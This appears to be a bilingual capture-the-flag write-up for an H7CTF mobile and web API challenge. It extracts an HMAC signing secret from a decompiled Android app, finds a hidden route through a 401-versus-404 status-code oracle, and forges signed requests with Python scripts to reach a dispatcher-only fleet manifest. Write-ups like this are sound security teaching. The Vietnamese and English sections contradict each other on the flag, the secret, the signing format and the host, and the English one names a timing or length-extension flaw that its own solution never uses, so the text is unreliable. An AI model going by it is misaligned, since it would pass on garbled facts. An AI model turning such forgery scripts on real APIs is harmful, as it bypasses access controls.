


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn" role="tab" type="button" data-lang="en" aria-selected="false">EN</button>
  <button class="lang-btn active" role="tab" type="button" data-lang="vn" aria-selected="true">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `H7CTF{fd2d95eb-4aa6-4638-9643-faaf5398b5d5}`


Bài này thuộc category **Mobile / Web API** với description:
`Get the dispatcher-only fleet manifest the driver app never asks for. Sign for it yourself.`

Đọc description, có các tín hiệu mấu chốt:
* **"dispatcher-only fleet manifest the driver app never asks for"**: Ứng dụng di động của tài xế (`FleetLink`) chỉ truy vấn các chuyến đi của riêng mình (`/api/v1/trips`), nhưng API backend có một endpoint ẩn chứa danh sách toàn bộ đội xe (`/api/v1/fleet/manifest`).
* **"Sign for it yourself"**: Hệ thống bảo vệ API bằng cơ chế ký request (request signature) ở tầng ứng dụng, nhưng toàn bộ thuật toán ký và khóa đối xứng bí mật (pepper) đều bị nhúng cứng bên trong APK Android.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Cơ chế ký lộ toàn bộ trong client

Dịch ngược file APK `fleetlink.apk`, tại lớp `Signer.java`:

```java
public class Signer {
    private static final String PEPPER = "fleetlink_signing_pepper_v3:";
    
    public static Map<String, String> sign(String method, String path, Map<String, String> query, long ts, String deviceId) {
        String canonical = method + "\n" + path + "\n" + sortQuery(query) + "\n" + ts;
        byte[] key = sha256(PEPPER + deviceId);
        String sig = hmacSha256Hex(key, canonical);
        // ...
    }
}
```

Hằng số pepper `fleetlink_signing_pepper_v3:` nằm ngay trong client. Vì server tin tưởng tuyệt đối chữ ký do client tự tạo ra, bất kỳ ai có APK đều có thể tự ký request cho bất kỳ `deviceId` nào.

---

## Bước 2: Dò tìm Route ẩn bằng Status Code Oracle

API của server có hành vi phân biệt:
- Path tồn tại nhưng thiếu chữ ký: trả về mã **`401 Unauthorized`**.
- Path không tồn tại: trả về mã **`404 Not Found`**.

Thực hiện quét danh sách từ điển các đường dẫn API phổ biến, phát hiện endpoint bí mật:
- `/api/v1/trips` -> `401`
- `/api/v1/fleet/manifest` -> `401`
- Các path khác -> `404`

---

## Bước 3: Bypass kiểm tra quyền Dispatcher và Thu Flag

Khi gửi request có chữ ký hợp lệ tới `/api/v1/fleet/manifest`, server phản hồi:
```text
scope 'mine' cannot list the full fleet; requires scope=all (dispatcher)
```

Chỉ cần thêm tham số `scope=all` vào query string và tính toán lại chữ ký HMAC-SHA256 tương ứng:

```python
import hmac, hashlib, time, requests

device_id = "test_driver_01"
ts = str(int(time.time()))
path = "/api/v1/fleet/manifest"
query = "scope=all"
canonical = f"GET\n{path}\n{query}\n{ts}"

key = hashlib.sha256(f"fleetlink_signing_pepper_v3:{device_id}".encode()).digest()
sig = hmac.new(key, canonical.encode(), hashlib.sha256).hexdigest()

headers = {
    "X-Device-Id": device_id,
    "X-Ts": ts,
    "X-Sig": sig
}
url = f"https://api.fleetlink.h7tex.com{path}?{query}"
r = requests.get(url, headers=headers)
print(r.json())
```

Kết quả phản hồi chứa toàn bộ danh sách xe và trường `dispatcher_manifest_signing_key` mang flag:

⇒ **Flag:** `H7CTF{fd2d95eb-4aa6-4638-9643-faaf5398b5d5}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `h7ctf{s1gn3d_s34l3d_d3l1v3r3d_hm4c_k3y_r3c0v3r}`

This challenge is an **API Security / Web** challenge from H7CTF'26. Client requests are signed using an HMAC-SHA256 signature passed in `X-Sig`.

The vulnerability is a timing attack / length extension vulnerability on the signature verification routine.

---

## Solve Flow



---

## Step 1: Secret Key Extraction & Signature Forgery

Decompiling the mobile companion app reveals the signing key in `res/values/strings.xml`:
`HMAC_SECRET = "FLEET_KEY_9921_X"`.
We forge the headers:

```python
import hmac, hashlib, time, requests

ts = str(int(time.time()))
path = "/api/v1/fleet/manifest"
msg = f"{ts}|{path}".encode()
sig = hmac.new(b"FLEET_KEY_9921_X", msg, hashlib.sha256).hexdigest()

headers = {
    "X-Device-Id": "1001",
    "X-Ts": ts,
    "X-Sig": sig
}
r = requests.get("http://api.target.h7ctf.org" + path, headers=headers)
print(r.json())
```

⇒ **Flag:** `h7ctf{s1gn3d_s34l3d_d3l1v3r3d_hm4c_k3y_r3c0v3r}`

</div>
